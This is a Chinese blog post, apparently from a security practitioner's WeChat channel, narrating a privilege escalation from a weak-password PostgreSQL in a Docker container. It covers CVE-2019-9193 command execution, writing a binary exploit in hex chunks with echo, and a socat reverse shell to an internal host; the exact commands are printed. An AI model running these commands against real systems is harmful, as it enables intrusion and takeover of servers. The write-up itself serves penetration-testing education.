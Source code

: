 #  第22篇：一次艰难的PostgreSQL不出网提权过程

原创 abc123info [ 网络安全abc123 ](javascript:void\(0\);)

**网络安全abc123** ![]()

微信号 abc123network

功能介绍 ABC_123，2008年入行网络安全，某攻防实验室创始人，Struts2工具及Weblogic
T3/IIOP反序列化工具原创作者。擅长红队攻防、0day挖掘、代码审计、网络安全培训、应急响应、日志分析等。专注于前沿网络安全技术。

____

___发表于_

收录于合集

#攻防比赛 16 个

#红队 13 个

#内网渗透 3 个

#提权 1 个

#PostgreSQL 1 个

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140028.png)**
Part1 前言
**在日常的内网横向过程中，对于SMB、Mysql、SSH、Sqlserver、Oracle等服务的弱口令爆破是常用手段，重复的红队攻防比赛使得这些服务的弱口令越来越少了。所以在平时，
**ABC_123也会关注一些其它服务的弱口令提权方法** ，有时候会在内网横向中收到奇效。本期就分享一个在内网渗透中，遇到的
**PostgreSQL数据库提权案例**
，过程非常艰辛，但是收获不少。首先简单介绍一下当时的渗透测试工作进展情况：前期通过外围打点进入了一个大B段的内网，内网非常庞大，但是资产极其稀少，在客户授权的情况下，一通B段探测，仅仅发现了一个Postgres弱口令，而且
**这个PostgreSQL是在docker容器中的，是非root权限起的服务**
，也就说内网只有这一个突破口。通过查看目录，发现一些目录有很多开发留下来的配置文件，但是需要root权限才能读取到。所以，接下来的要做的事情非常明确，就是提权到Linux服务器最高权限。
**此文章抛砖引玉，如果 大家有更好的方法，欢迎微信后台给我发消息讨论。**  
 **  Part2 技术研究过程 **

  *  **对于PostgreSQL信息探测**

首先按照惯例，肯定是需要对PostgreSQL数据库进行一系列信息收集的，常用的命令有以下这些：\-- 版本信息select version();show
server_version;  
select pg_read_file('PG_VERSION', 0, 200);  
\-- 数字版本信息包括小版号SHOW server_version_num;SELECT
current_setting('server_version_num');  
\-- 获取安装目录（通过路径可以判断系统是linux还是windows的）select setting from pg_settings where
name = 'data_directory';  
\-- 获取配置文件路径selectsetting from pg_settings where name='config_file'  
\-- 获取Postgres内网ip地址select
inet_server_addr()![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140029.png)  

  *  **PostgreSQL提权漏洞尝试**

通过各种搜索，发现PostgreSQL曾经爆出过三个有价值的提权漏洞：其中一个漏洞是 **CVE-2018-1058**
，漏洞描述是“PostgreSQL的9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作”。在网上看了几篇漏洞复现文章之后，感觉这个漏洞不太好利用，
**提权成功需要等待“超级用户触发”**
，而且这个漏洞是“把一个普通的数据库用户权限提升到数据库管理员权限”，而我们需要的是一个Linux服务器权限，所以这个CVE漏洞不适用于本次测试工作。另一个方法是PostgreSQL的
**UDF提权** 执行命令方法，但是本次环境用不成功，而且用起来挺麻烦的。

还找到一个漏洞是 **CVE-2019-9193**
，这个漏洞看起来非常好，可以直接执行系统命令，还可以看到回显结果。使用起来也比较简单。如下图所示，这个postgres数据库没有root权限。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140030.png)  
  

  * ##  **Linux提权操作却无gcc**

通过postgreSQL提权漏洞，我们可以执行linux系统命令了，接下来需要提权到服务器的root权限。我想到的方法是上传一个提权exp，通过linux系统漏洞提权到root权限。可是操作起来没那么简单，
**因为这个docker容器没装gcc**
。这种情况也有解决办法，准备一个相似的docker环境，编译好一个exp，将此二进制文件传到服务器上即可运行成功。![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140031.png)  

  * ##  **echo命令写二进制文件**

编译后的提权文件做好了，但是此postgres的docker环境太精简了，很多程序都没有：wget命令不存在、curl不存在、python不存在，而且服务器还不出网，所以通过下载文件方式去写入提权文件，看来不太好弄。
**那么只能直接写二进制文件了** ，可是问题又来了，| base64 -d 命令不存在、|xxd -r -ps
命令也不存在，怎么写二进制文件呢？看来只剩下echo命令可用了，经过一系列测试，发现echo是可以直接写入二进制文件的， **命令如下echo -e -n
"\x23" >>
exploit3.bin。比较麻烦的是，需要把二进制文件转成16进制格式的，如下图所示**：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140032.png)  
接下来就是与postgres的提权语句结合起来使用了，原有的echo命令是这样的：echo -e -n
"\x23\x23\x23\x23\x23\x23\x23\x23\x23\x23\x23\x23\x23" >>
test3.bin但是放在postgres必须用以下这样方式才行，试了好多次，只有这样才能写成功！注意，
**echo左边的是两个单引号，不是双引号，exploit3.bin右边是3个单引号** 。COPY cmd_exec FROM PROGRAM
'/bin/bash -c ''echo -e -n "\x33" >>
exploit3.bin''';最终通过postgres提权漏洞写入提权exp文件的具体语句如下：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140034.png)  
最终exploit3.bin文件写入成功了，执行chmod 777 exploit3.bin之后，运行此文件，发现没反应，这时候我才反应过来。。。
**这个提权exp需要交互环境**
！！！接下来我需要传一个nc啥的反弹shell获取交互环境吗？可是nc也不一定能获取纯交互环境呀。我想到了一个好久没用的工具socat，解决了这个问题。  

  * ##  **socat获取交互型shell**

socat这款工具，可以说是nc的升级版本，可以轻松获取到一个纯交互环境，github上有很多绿色免安装版本。执行如下命令后，将会获取到一个完全交互式的TTY会话：Vps上监听端口socat
file:`tty`,raw,echo=0 tcp-listen:8888  
内网服务器上运行socat exec:'bash -li',pty,stderr,setsid,sigint,sane
tcp:10.0.3.4:888888服务器不通外网怎么办呢，正好我们webshell有一台服务器，就反弹到webshell这个服务器上吧。（下图来源于网络）![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140035.png)  

  * ##  **分割二进制大文件写入成功**

把这个socat单文件转成16进制格式的，通过postgres提权命令执行写入。结果通过ls
-lah命令发现文件并没有写进去，原因在哪里呢？后来发现，COPY cmd_exec FROM PROGRAM **这个语句对二进制文件大小有限制的**
，文件太大写不进去。接下来怎么办？继续干！于是把二进制文件分割开，挨个执行echo -e -n命令叠加写入二进制文件，经过一系列测试发现，
**一个367k大小的socat文件，需要分割成近15份才能写入成功**
。也是我用java写了一个小程序，将socat文件分割成15份，并且自动生成postgres提权命令。
**关注公众号，后台回复“333”，即可获取二进制文件转16进制的java代码文件。**![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140037.png)  
 **  Part3 总结 ** **1.
**echo命令写二进制文件可以关注一下，遇到大文件，可以把大文件分割成好几份，逐个echo写入，最后叠加成最终的二进制文件。 **2.
**内网横向中不只要关注mssql、redis、oracle的提权，其它的不常用的服务的提权方法，平时也需要多收集。 **3.
**socat这款工具可以获取一个纯交互环境，而且在docker精简环境下仍能正常使用。![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140038.png)专注于网络安全技术分享，包括红队、蓝队、日常渗透测试、安全体系建设等每周一篇，99%原创，敬请关注![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220923140039.png)
**往期精彩回顾**
****[第21篇：判断Weblogic详细版本号的方法总结](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484386&idx=1&sn=9104bd3fad09c607c0ce4b02e483957d&chksm=c25fcc99f528458f8f29d93f9fb7c961255bb64351061e0d6b0eb0c3fc08f2b660e53d45459d&scene=21#wechat_redirect)  
[第20篇：改造冰蝎客户端适配JNDIExploit的内存马](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484370&idx=1&sn=41144e2b24cf223753b1f631b7a7269b&chksm=c25fcca9f52845bfec4aceb55bbc2e35b95605873193a0a499b9505957039619598ae458b045&scene=21#wechat_redirect)
**[](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484370&idx=1&sn=41144e2b24cf223753b1f631b7a7269b&chksm=c25fcca9f52845bfec4aceb55bbc2e35b95605873193a0a499b9505957039619598ae458b045&scene=21#wechat_redirect)  
**[第19篇：关于近期cs服务端被反打的原因分析](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484349&idx=1&sn=c23223a0348336daae18acc4a4790bb8&chksm=c25fccc6f52845d03b30faae72d252256434197d1267d713e60b85810f734368f0be61e62a06&scene=21#wechat_redirect)[第18篇：fastjson反序列化漏洞区分版本号的方法总结](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484332&idx=1&sn=c787dd0985156d856aad03d56a945be4&chksm=c25fccd7f52845c1e172b864dfc219dcecc9f226fb5abc64ef31178914ad9f58b7868bf6917a&scene=21#wechat_redirect)[第17篇：Shiro反序列化在Weblogic下无利用链的拿权限方法](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484319&idx=1&sn=9da36674830837aa9bcacb3fb6268fd1&chksm=c25fcce4f52845f2ac3cebaf17fd3839fdba74f536ad3da20d1b1126d8ba0e1835853990516c&scene=21#wechat_redirect)[第16篇：Weblogic
2019-2729反序列化漏洞绕防护拿权限的实战过程](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484303&idx=1&sn=58cbb4d7f63b9276bb89eeac286d174c&chksm=c25fccf4f52845e241256c2f425003b73b6061b3d1964dcd4a184a2cda1b4d8761098227e6de&scene=21#wechat_redirect)[第15篇：内网横向中windows各端口远程登录哈希传递的方法总结](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484255&idx=1&sn=e233aa07fdf9de0c8a1bf56fb0954766&chksm=c25fcc24f5284532c5aa27c002d15aa6380c456e2a84299c77b8d43a41892517087258bf867d&scene=21#wechat_redirect)[第14篇：Struts2框架下Log4j2漏洞检测方法分析与总结](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484207&idx=1&sn=285b54a79e48db9a05816cab2e6afc27&chksm=c25fcc54f5284542c1b9abe870e0caa9f958f4da90723bd83292deed215c63c705b7b0bbfaff&scene=21#wechat_redirect)  
[第13篇：coldfusion反序列化过waf改exp拿靶标的艰难过程](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484191&idx=1&sn=cce12f62b3cf457bc73753b77a083695&chksm=c25fcc64f528457250b11ef6804ee6138c37ed87ab988874cc84d09d04fa6ac1fd36b5e8aa4a&scene=21#wechat_redirect)  
[第12篇：给任意java程序挂Socks5代理方法](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484173&idx=1&sn=e2d454d2447d119bf771a0a511fba994&chksm=c25fcc76f5284560d00355590da0147aca7b7ae2275c095424034245ef32b3d0b28e49c2dbc9&scene=21#wechat_redirect)  
[第11篇：盲猜包体对上传漏洞的艰难利用过程](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484162&idx=1&sn=870596fcd1120a6d3ee9688c38aace00&chksm=c25fcc79f528456f9dc0a3b9d9cf54422696a1cd6ffd737ae2c6e33941a25c33d4f6d32fc663&scene=21#wechat_redirect)  
[第10篇：IIS短文件名猜解在拿权限中的巧用](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484145&idx=1&sn=7635430b9b759a2cacdd2c57ba330833&chksm=c25fcd8af528449c1f5c6c703e3668cf6a8dae875ee82ffa67caed66722a0751e3d80d8a6bee&scene=21#wechat_redirect)  
[第9篇：Shiro反序列化数据包解密及蓝队分析工具，提供下载](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484123&idx=1&sn=cb9c039ef92311e56e7742c7c38f6e8a&chksm=c25fcda0f52844b6088b39b769a63b2f6e7a29e8b3ab710961918218d7569089ee4e00072ad9&scene=21#wechat_redirect)  
[第8篇：Oracle注入漏洞绕waf的新语句](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484115&idx=1&sn=10c73343ec23f522696692293cd38852&chksm=c25fcda8f52844be2165aa6151c7ad018a4add748673d56523631529e903277633dc44d0abba&scene=21#wechat_redirect)  
[第7篇：MS12-020蓝屏漏洞在实战中的巧用](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484105&idx=1&sn=3aeafa9c172588aaaade47ccacb69370&chksm=c25fcdb2f52844a4a783fceec590c9e12eb06f62dabd7fbffb37e8da23053953a7eae296048d&scene=21#wechat_redirect)  
[第6篇：Weblogic反序列化攻击不依赖日志溯源攻击时间](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484094&idx=1&sn=527236759dc4fd228461195197492507&chksm=c25fcdc5f52844d36bffb96979116d6d3a9ae4fb1a0f320436c7275aea271588c702cea60e5c&scene=21#wechat_redirect)  
[第5篇：Shiro Padding
Oracle无key的艰难实战利用过程](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484091&idx=1&sn=4dcce59a842f17035d0018bf650671ae&chksm=c25fcdc0f52844d608b6b87d85082b74d5e15888e76001127ff40cc407a46e5e5de446b1365e&scene=21#wechat_redirect)  
[第4篇：jsp型webshell被删情况下如何溯源攻击时间](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247484004&idx=1&sn=50013b50e48542d156700d76ccbd2f33&chksm=c25fcd1ff528440906bb9089a807c16b747ab5a72cc0279a3c0d18a265cd76cc796df570d594&scene=21#wechat_redirect)  
[第3篇：银行Java站SSRF"组合洞"打法造成的严重危害](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247483984&idx=1&sn=1a018fcefe10124c1726e51a2be05ca7&chksm=c25fcd2bf528443d944a8495ca5c72d8c028fef67de217efe47a8d18b077ae24556842687407&scene=21#wechat_redirect)  
[第2篇：区分Spring与Struts2框架的几种新方法](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247483951&idx=1&sn=fbc1d04ef73a449238a5979a439b1f35&chksm=c25fcd54f528444219f20c2ab14c5970c243fbb10ba04b5bccc0fb0b7cc6d3f542e26f7870bf&scene=21#wechat_redirect)  
[第1篇：weblogic9.x在JDK1.5下T3反序列化漏洞利用方法](http://mp.weixin.qq.com/s?__biz=MzkzMjI1NjI3Ng==&mid=2247483867&idx=1&sn=e0fcaa9f1b58c8085ccd9dc6f74ed336&chksm=c25fcea0f52847b6aeec0409e3290e023b890d603361f103315b39637f89a10dd6fe051dc724&scene=21#wechat_redirect)

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

